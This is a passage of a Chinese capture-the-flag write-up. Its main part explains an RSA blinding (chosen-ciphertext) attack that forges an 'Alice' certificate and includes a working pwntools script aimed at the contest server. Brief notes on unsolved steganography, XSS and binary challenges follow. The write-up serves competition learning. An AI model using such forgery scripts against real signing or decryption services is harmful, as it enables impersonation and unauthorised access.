enc = bytes.fromhex("f5b658a1fa3f7740e0c0a8bc67077fd1aaebaec98bfddb0f3a5e32b9fd3f8fa7f1ab14a4a9623e50e981b6a854423af589b3e8ccd6ebc1707f2227adcf3cead1ddbe5a92950f584b8de8d9db1a2f03aebee38cc9e58480320b4d4be4ef52899c")

get(enc, pad("Hello, Alice! I will give you two flags. The first is: ".encode("utf-8")))

```

### FLAG2

原理应该是选择密文攻击

阅读代码，我们发现 God 会对我们的 name 和 key 加密返回 cert，而 Richard 会验证我们的 cert 当 name 是 Alice 时给我们发送 FLAG2。但 God 已经加密过 name 是 Alice 的，所以如果我们输入 name 是 Alice 会被拒绝。

由于 Richard 只验证 name ，于是我们考虑制造 name 为 Alice，key 随意的明文对应的密文。

观察 God 签发过程，首先会将 name 和 key 进行 packmess 然后拼接起来再使用 rsa 加密。

我们考虑最简单的情况，即我们想要的是 `Alice\x00\x05\x00\x00` 这样的明文对应的 cert，于是我们考虑发送给God的 name 为空，这样 God 发送的 cert 的明文就是 key 和 key的长度 拼接起来。
$$
我们需要\ C\ 使得\ M=C^e\mod N \\
其中\ M=Alice\backslash x00\backslash x05\backslash x00\backslash x00 \\
我们选择任意的\ X 与\ N 互素（为了简单可以选 X=3 \ )\\
我们计算\ Y=M*X^e\mod N \\
将\ Y\ 发送给服务器计算\ Z=Y^d\mod N=M^d * X^{e*d}\mod N=C*X \mod N \\
现在我们知道Z、X，计算C只需要使得 (Z+iN)\%X==0 即可
$$
**注意⚠️：在构造出 Y 后，我们需要保证 Y 转换成 bytes 的长度减去2要小于 Y 的bytes的最后两个字节转换成的数字大小，且发送给服务器的 Y 应是 Y 转化成 bytes 后的前**

代码如下：

```python
from re import T
from pwn import *
from Crypto.Util.number import bytes_to_long,long_to_bytes
import binascii
from rsa import *
import gmpy2

r = connect("prob08.geekgame.pku.edu.cn", 10008)
r.sendlineafter(b"Please input your token:\n", b"Your Token")

print(r.recvline())  # What do you want to do?
print(r.recvline())  # 0. Talk to God.
print(r.recvline())  # 1. Talk to Richard.
r.sendline(b"0")
N = int(r.recvline().split()[-1].decode("utf-8"))  # My RSA N is: 
e = int(r.recvline().split()[-1].decode("utf-8"))  # My RSA e is: 
print("N: ", N)
print("e: ", e)

p = int.from_bytes(b"Alice\x00\x05\x00\x00", "big")
print(f"p: {p}")
x = 3
while True:
    tmp = p*pow(x, e, N) % N
    y = tmp.to_bytes((tmp.bit_length()+7)//8, "big")
    rlen = int.from_bytes(y[-2:], "big")
    if len(y)-2 > rlen:
        x+=1
        continue
    else:
        print(f"x:{x} y:{y}")
        break

y = b'\x00'*(rlen-len(y)+2) +y
y = y[-(2+rlen):-2]

print(r.recvline())  # What is your name?
r.sendline(b"")
print(b"")
print(r.recvline())  # What is your key?
r.sendline(y.hex().encode("utf-8"))
print(y)
print(r.recvline())  # Your certificate is:
fakecert = r.recvline().strip()
print(fakecert)
fakecert = int(fakecert.decode("utf-8"))
mess=pow(fakecert,e,N)
mess=mess.to_bytes((mess.bit_length()+7)//8,'big')
print("mess: ", mess)

i = 0
while True:
    tmp = fakecert + N*i
    if tmp % x == 0:
        break
    i += 1

C = (fakecert + N*i) // x
print(f"C: {C}")
mess=pow(C,e,N)
messm=mess.to_bytes((mess.bit_length()+7)//8,'big')
print(f"Hacked! {messm}")


print(r.recvline())  # What do you want to do?
print(r.recvline())  # 0. Talk to God.
print(r.recvline())  # 1. Talk to Richard.

r.sendline(b"1")
flag1enc = r.recvline() # Hello, Alice! I will give you two flags. The first is: 
notice_mess_enc =  r.recvline()  # Sorry, I forget to verify your identity. Please give me your certificate.

r.sendline(str(C).encode("utf-8"))

flag2enc = r.recvline() # I can give you the second flag now. It is: 
print(flag2enc)
# print(get_flag2(flag2enc))


r.close()
```


## 叶子的新歌

套娃心态炸掉。。

首先下载下来，在mac上会自动播放发现没啥东西，使用音频分析软件也没发现什么，耽误了好久，后来在windows上播放时发现右上角有提示`Secret in Album Cover` ，于是使用 potplayer 提取出封面图片，然后使用 stegosolove 找出使用 lsb 隐写进去的一个 png 文件，该 png 文件长得类似二维码，卡住。。。然后在linux 下使用 binwalk 发现有个压缩包，使用 `binwalk -e ` 处理后得到一个 `MIPSEL-BE ECOFF executable stripped -version 0.0` 的文件，尝试使用 qemu 运行无果，卡住。。。

## Q 小树洞的一大步

在使用了现代化框架 React 后的网站找 XSS 真难啊。。。尝试了很多方法都无法在网页上构建 XSS。

第二阶段看到提示后，又尝试了很多方法，还是行不通。~~我甚至逐行比对了 Q小树洞和 PKU树洞现在的 js 文件，还是没有任何发现。~~

审计代码中发现访问 `/hole/#//setflag flag1=content` 会将 `LocalStorage` 中的 `flag1` 设置为 `content` ，但并不会触发代码执行，且由于会弹出一个提示框，将导致 XSSBOT 无法继续执行。。

还发现 `LocalStorage` 中的 `APPSWITCHER_ITEMS` 中有一项 `fix` 会被  `eval` 语句执行，但由于跨域要求，无法在其他站点修改这个值，无法利用这个点。

静待大神们的 WP

## 射手鱼

`.debug` 文件完全不懂，静待大神们的 WP

## 字符串转义

第一阶段想到了计算 canary，然后调用`print_flag`但没动力做，之前完全没做过😮‍💨，静待大神们的 WP

## 最强大脑

不知道为什么进入`compile_code()` 编译的区域后会`segment fault` ，静待大神们的 WP

## 电子游戏概论

看着没人做出来，就没看，静待大神们的 WP

## 扫雷

练了一个 Qlearning 但效果不行，不太想调参，放弃，静待大神们的 WP

## 龙珠模拟器

应该是考察 java 里的 Random 类，对 java 不熟对算法也不熟，放弃，静待大神们的 WP


